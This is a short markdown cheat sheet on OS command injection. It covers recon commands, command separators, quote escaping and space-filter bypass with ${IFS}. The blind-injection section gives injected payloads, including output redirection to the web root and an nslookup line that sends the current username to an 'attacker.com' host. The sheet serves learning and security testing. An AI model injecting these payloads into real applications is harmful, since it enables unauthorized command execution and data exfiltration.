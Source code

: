 # OS Command Injection Overview

## Introduction

OS Command Injection is a security vulnerability that occurs when an application passes unsafe user-supplied data to a system shell. This can allow attackers to execute arbitrary commands on the host operating system under the privileges of the vulnerable application.

## Common Commands

| Purpose                | Linux        | Windows        |
|------------------------|--------------|----------------|
| Name of current user   | `whoami`     | `whoami`       |
| Operating system       | `uname -a`   | `ver`          |
| Network configuration  | `ifconfig`   | `ipconfig /all`|
| Network connections    | `netstat -an`| `netstat -an`  |
| Running processes      | `ps -ef`     | `tasklist`     |

## Exploring Vulnerabilities

- **Parameter Manipulation**: Altering parameters in an application might trigger errors indicating that a command is being executed in the background. Use special characters like `|` or `&` to append additional commands.

- **Blind OS Command Injection**:
  - **Time Delays**: Use commands like `ping` to create a delay, indicating a command execution.
    - Example: `& ping -c 10 127.0.0.1 &`
  - **Output Redirection**: Redirect the output of commands to a directory that you can access.
    - Example: `& whoami > /var/www/static/whoami.txt &`
  - **DNS Lookups**: Use `nslookup` to see if DNS queries can be made from the server.
    - Example: `& nslookup $(whoami).attacker.com &`

## Command Separators

Command separators can vary based on the operating system and can be used to chain multiple commands:

- **Universal**:
  - `&`, `&&`, `|`, `||`
- **Unix-specific**:
  - `;`, `\n` (newline)
  - Inline execution: `` `command` ``, `$(command)`

## Escaping Command Contexts

When input appears within quotation marks in the original command, you must first terminate the quoted context (`"`, `'`) before injecting new commands.

## Special Characters and Encodings

- **Internal Field Separator (IFS)**: In scenarios where spaces are filtered, the IFS variable can be used as a substitute for spaces.
  - Example: Use `cat${IFS}*.txt` to concatenate and display `.txt` files when spaces are blocked.
